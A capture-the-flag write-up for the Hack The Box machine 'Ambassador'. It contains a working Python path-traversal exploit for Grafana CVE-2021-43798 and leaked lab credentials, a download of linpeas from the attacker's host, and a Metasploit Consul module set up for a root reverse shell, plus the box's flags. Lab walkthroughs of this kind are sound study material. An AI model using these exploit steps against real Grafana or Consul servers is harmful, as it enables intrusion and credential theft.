

# ambassador

[link to the box](https://app.hackthebox.com/machines/Ambassador)

1. [scanning](#scanning)
2. [exploiting](#exploiting)
3. [pwning](#pwning)

# scanning

as with anything, we start by scanning the host's ip on all ports

```bash
$ nmap -Pn -p- 10.10.11.183
PORT     STATE SERVICE
22/tcp   open  ssh
80/tcp   open  http
3000/tcp open  ppp
3306/tcp open  mysql
```
the service of interest here is 'ppp', located at http://10.10.11.183:3000/

visiting it presents us with a login page.



(ignore all the wrong rabbit holes)

the login page says it is [grafana 8.2.0](https://grafana.com/oss/grafana/?utm_source=grafana_footer), and a quick search shows that this is totally vulnerable to [CVE-2021-43798](https://grafana.com/blog/2021/12/07/grafana-8.3.1-8.2.7-8.1.8-and-8.0.7-released-with-high-severity-security-fix/), allowing unathorised arbitrary file read.

# exploiting

this CVE relies on the ability to travers directories upwards from an accessible folder to access any files on the system. first we must find a plugin that exists on the remote.

[default root directory](img/default-root.png)

we should try looking in `/public/plugins` since the default root in the grafana upstream is `/plugins/`

[here](https://raw.githubusercontent.com/ScorpionsMAX/CVE-2021-43798-Grafana-POC/main/paload.txt) is a short list of plugins that come pre-bundled with grafana. pick one and see if it exists:

```bash
$ curl http://10.10.11.183:3000/public/plugins/welcome
<a href="/login">Found</a>.
```

then run this python script to try and download the defaults user database from grafana.

```python
#!/usr/bin/python3
import os

TARGET = "http://10.10.11.183:3000/public/plugins/welcome/"
DEPTH = 15
TARGET_FILE = "/var/lib/grafana/grafana.db" # grafana user db default location
OUTFILE = "./grafana.db" # to save to local machine

backwards = ""
for x in range(0, DEPTH):
        backwards += "../"

print("calling: curl " + TARGET + backwards + TARGET_FILE)
os.system("curl --path-as-is " + TARGET + backwards + TARGET_FILE + " -o " + OUTFILE) # path as is to not squash the '../' sequences
```

we now have access to the database file holding usernames and passwords! lets look inside it.

open sqlitebrowser on the downloaded database to find some sql passwords

[mysql login](img/password.png)

we can now try logging into the live mysql database.

```bash
$ mysql -h 10.10.11.183 -u grafana --password=dontStandSoCloseToMe63221!
# get list of databases
mysql > show databases;
+--------------------+
| Database           |
+--------------------+
| grafana            |
| information_schema |
| mysql              |
| performance_schema |
| sys                |
| whackywidget       |
+--------------------+
# whackywidget looks like a suspicious databse
mysql > use whackywidget;
Database changed
mysql > show tables;
+------------------------+
| Tables_in_whackywidget |
+------------------------+
| users                  |
+------------------------+
mysql > select * from users;
+-----------+------------------------------------------+
| user      | pass                                     |
+-----------+------------------------------------------+
| developer | YW5FbmdsaXNoTWFuSW5OZXdZb3JrMDI3NDY4Cg== |
+-----------+------------------------------------------+
```

now we have the ssh username and hashed password for the developer account at the beginning. lets bruteforce the hash using `hashcast`

```bash
$ hashcat YW5FbmdsaXNoTWFuSW5OZXdZb3JrMDI3NDY4Cg==
```

(alternatively look up the hash on [hashes.com](https://hashes.com/en/decrypt/hash) or some other database)

turns out the password is literally just base64 encoded. i feel super dumb.

connect to the ssh account using the decoded password and grab the user flag!

```bash
$ sshpass -p 'anEnglishManInNewYork027468' ssh developer@10.10.11.183 -p 22
developer@ambassador:~$ cat user.txt
0058ba8fb25c629583d1781988194134
```

# pwning

doing some basic manual enumeration won't get us far, let's see if we can send over an [enumeration script](https://github.com/carlospolop/PEASS-ng) to save effort and time.

on local machine:
```bash
$ wget https://github.com/carlospolop/PEASS-ng/releases/download/20221016/linpeas.sh
$ doas python3 -m http.server 80
```

on remote:
```bash
$ wget http://10.10.14.13:80/linpeas.sh
$ chmod +x ./linpeas.sh
$ ./linpeas.sh
```

unfortunately, this nets us little in the way of a foothold, and we also have no sudo.

[no sudo](img/nosudo.png)

but continuing to dig around eventually reveals some interesting folders in `/opt/`

[opt folder](img/lsopt.png)

this shows us a git repo, which when sniffing in the log reveals a misplaced consul token

[git log](img/gitlog.png)

since we have an api token, we can explore around in `consul`

```bash
$ consul acl token list --token bb03b43b-1d81-d62b-24b5-39540ee469b5
...
Policies:
   00000000-0000-0000-0000-000000000001 - global-management
```

the api token is a global-management token, so we can register a service by running `consul services register` and supplying a `.json` file to run a reverse shell.

```bash
$ cat /etc/consul.d/consul.hcl
...
bind_addr = "127.0.0.1"
...
```

consul is unfortunately only listening on the local address, so we cannot use remote without redirecting the port.

```bash
$ sshpass -p 'anEnglishManInNewYork027468' ssh -L 8500:127.0.0.1:8500 developer@10.10.11.183
```

will redirect the port 8500 on the remote to our local 8500

a handy msf exploit `multi/misc/consul_service_exe` allows us to use this found token to do exactly that

```bash
$ msfconsole
> use multi/misc/consul_service_exe
> set LHOST 10.10.14.13
> set LPORT 42069
> set RHOSTS 127.0.0.1
> set RPORT 8500
> set ACL_TOKEN bb03b43b-1d81-d62b-24b5-39540ee469b5
> run
```

now we have another reverse shell!

```bash
$ whoami
root
$ cat /root/root.txt
c3f5f94f9eaf9329abe9094ee8ae2aae
```

congrats! youre winner.
